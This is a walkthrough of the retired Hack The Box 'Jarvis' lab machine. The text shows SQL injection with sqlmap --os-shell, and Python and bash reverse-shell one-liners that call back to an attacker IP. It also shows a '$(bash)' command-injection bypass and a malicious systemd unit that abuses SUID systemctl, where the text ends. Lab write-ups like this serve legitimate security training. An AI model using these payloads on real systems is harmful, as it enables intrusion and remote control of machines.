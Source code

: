 # Hack The Box - Jarvis walkthrough
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/jarvis.png?raw=true)

This walkthrough is about the retired Jarvis machine of Hack The box. </br>
It is a Linux based machine. </br>
This machine has a static IP address <10.10.10.143> </br>
It was a nice bit easy machine. </br>
</br>
You have to found **user.txt** and **root.txt** flag. </br> 

## Penetration Methodology

* **Scanning**
  * open ports and services
* **Enumeration**
  * Enumerating the website about vulnerablities
* **Exploitation**
  * SQLI
  * exploitation using sqlmap
  * os-shell with sqlmap
  * machine access with Reverse-shell
* **Post Exploitation**
  * getting user access
  * privelage escalation from user to root
  
Now start pentesting the **Jarvis** machine. </br>

## Checking for open ports and services

We used **nmap** for checing the open ports and what services are running.
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/nmap.png)

As we can see that port **22** and **80** are open.

**Now start enumerating the website**

When we reach the website we got a page like this </br>
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/page.png)

## Enumerating the Website

**While enumerating the website after some time we found a page room.php** </br>

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_vul_room.png)

**This seems to be sql vulnerable** --> `<10.10.10.143/room.php?cod=1>` 

## Exploitation using sqlmap

Then we tried **sqlmap** with **--os-shell**
**using this** 
* `sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sqlmap_1.png)

And we got the shell

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_1.png)

Now we can use any reverse shell to get access of the machine

**I have used the python reverse shell**

Simply execute the reverse shell and also start the listener </br>

* `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

**We got the shell but it is not the proper user**

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/conn.png)

Now we are www-data user so we enumerate for **user.txt** flag

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/enu_ww.png)

As we can see that only root and pepper user has privelages to read **user.txt** </br>
So we have to escalate our privelage to **pepper** user.

## Post Exploitation

So after some enumerating I look into **sudoers file**

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/w_perm.png)

As we can see that **www-data** can run **/var/www/Admin-Utilities/simpler.py** </br>
with **pepper** user permission.

So we go through the **/var/www/Admin-Utilities/simpler.py** python file </br>
and in that we can see a **exec_ping** function and it looks something suspicious for privelage escalation to **pepper**.

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/ping.png)

As there are some blacklist symbols but **$** symbol is not blacklisted. </br>

So we simply run 
* ` sudo -u pepper /var/www/Admin-Utilities/simpler.py -p `
with **-p** which is ping option

Then it pop up with **Enter an IP** option </br>
There use the non-blacklisted symbol with bash command
* ` $(bash) `

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/pepper_shell.png)

**We got the pepper user** </br>

But we are not able to run any command so we try to get a reverse shell from **pepper** user </br>
and also start a listener

So I simply run a bash reverse shell command 
* `bash -i >& /dev/tcp/<your ip>/1234 0>&1`

And we got the new **pepper** user shell
Then we enumerate ffor **user.txt**
* `ls -al`
* `cat user.txt`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/user.png)

Now we have to read our **root.txt** flag </br>
So for that we have to escalate our privelage to **root**.

So firstly we check for **SUID bit SET**
* `find / -perm -u=s -type f 2>/dev/null`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/suid.png)

Here we find **/bin/systemctl** service running with **root** permission </br>

* As Systemctl is a systemd utility that is responsible for Controlling the systemd system and service manager.

So we make a new service and enable that service </br>
	
`[Unit]
Description=hacking articles
[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/8888 0>&1'
[Install]
WantedBy=multi-user.target`

